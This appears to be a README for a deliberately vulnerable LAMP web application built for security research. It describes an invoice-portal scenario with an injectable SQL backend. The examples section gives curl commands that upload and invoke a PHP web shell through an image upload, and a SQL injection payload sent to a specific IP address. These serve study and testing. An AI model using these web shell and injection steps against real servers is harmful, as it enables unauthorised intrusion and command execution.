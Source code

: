 # Web Server

## Requirements

For example, the exemplar assumes SQL injection is possible on the vendor web portal, **the web application where the contractor can submit invoices to the enterprise**. Additionally, the exemplar assumes a misconfiguration of the SQL server; in this example, **the SQL server is a Microsoft SQL server running with administrator privileges and has PowerShell enabled, allowing for command line interaction with the server.** The SQL injection will have a different level of observability and different set of defense tactics than network reconnaissance. This enables researchers to explore strategies such as focusing defensive tactics on increasing attack observability.

### LAMP

- Linux
- Apache Web Server
- MySQL Database Server
- PHP: backend programming language

### Database

#### Table&Column

- user
- user_group
- target_order

### Web Pages

- [login/register](https://www.tutorialspoint.com/php/php_mysql_login.htm)
- welcome
- search
- user profile(for photo uploading)



## SQL injections example

#### 1. Shell Injection

```shell
$ curl -F "image=@path/shell.php" http://IP_address/upload.php
$ curl -X GET  http://IP_address/images/shell.php\?cmd\=uname
```

#### 2. SQL Injection 

```shell
input query string: `anything%' OR 'x' LIKE '%x`
$ curl -X GET  http://52.37.128.197/index.php?query=anything%25%27+OR+%27x%27+LIKE+%27%25x
```

## Extensibility

1. Create your own database using your sql file
2. Modify the PHP source files, including functions and the level of security 



## References

[SQL injection](http://php.net/manual/en/security.database.sql-injection.php)
[Curl in PHP](http://thisinterestsme.com/php-login-to-website-with-curl/)